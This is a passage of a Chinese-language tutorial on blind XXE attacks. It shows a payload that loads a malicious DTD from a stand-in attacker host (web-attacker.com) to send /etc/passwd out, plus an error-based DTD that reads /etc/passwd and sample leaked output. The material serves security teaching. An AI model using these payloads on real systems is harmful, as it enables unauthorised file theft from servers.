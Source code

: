 然后，攻击者必须在他们控制的系统上托管恶意DTD，通常是将其加载到他们自己的Web服务器上。例如，攻击者可以能在以下URL上提供恶意DTD：

```url
http://web-attacker.com/malicious.dtd
```

最后，攻击者必须向易受攻击的应用程序提交以下XXE payload

```xml-dtd
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

此XXE payload声明一个调用xxe的XML参数实体，然后在DTD中使用该实体。这将导致XML解析器从攻击者的服务器获取外部DTD并以内联方式解释它。然后执行恶意DTD中定义的步骤，并将/etc/passwd 文件传输到攻击者的服务器。

>此方法可能不适用于某些文件内容，包括 `/etc/passwd` 文件中包含的换行符。这是因为某些 XML 分析器使用 API 提取外部实体定义中的 URL，该 API 验证允许在 URL 中显示的字符。在这种情况下，可以使用 FTP 协议而不是 HTTP。有时，无法泄露包含换行符的数据，因此可以改为以 等 `/etc/hostname` 文件为目标。

### Exploiting blind XXE to retrieve data via error messages

利用XXE盲注的另一种方法是触发XML解析错误，其中**错误信息包含要检索的敏感数据**。如果应用程序在其响应中返回生成的错误消息，这将生效。

可以使用恶意外部DTD触发包含`/etc/passwd` 文件内容的XML解析错误消息

```xml-dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

此DTD执行以下步骤：

- 定义一个名为file的XML参数实体，其中包含`/etc/passwd`文件的内容。
- 定义一个名为eval的XML参数实体，其中包含另一个名为`error`的XML参数实体的动态声明。将通过加载一个不存在的文件来评估该实体，该文件的名称包含该`error` `file`实体的值。
- 使用实体，这会导致执行eval error实体的动态声明。
- 使用实体error，以便通过尝试加载不存在的文件来计算其值，从而生成一条错误消息，其中包含不存在的文件名称，即etc/passwd的内容。

调用恶意外部DTD将导致如下所示的错误信息：

```passwd
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

### Exploiting blind XXE by repurposing a local DTD

上述技术适用于外部 DTD，但通常不适用于 `DOCTYPE` 元素中完全指定的内部 DTD。这是因为该技术涉及在另一个参数实体的定义中使用 XML 参数实体。根据 XML 规范，这在外部 DTD 中是允许的，但在内部 DTD 中是不允许的。 （某些分析器可能允许它，但许多分析器不允许。

那么，当带外交互被阻止时，盲目的 XXE 漏洞又如何呢？无法通过带外连接泄露数据，也无法从远程服务器加载外部 DTD。

在这种情况下，由于 **XML 语言规范中的漏洞**，可能仍可能触发包含敏感数据的错误消息。如果文档的 DTD 混合使用内部和外部 DTD 声明，则内部 DTD 可以重新定义在外部 DTD 中声明的实体。发生这种情况时，将放宽对在另一个参数实体的定义中使用 XML 参数实体的限制。
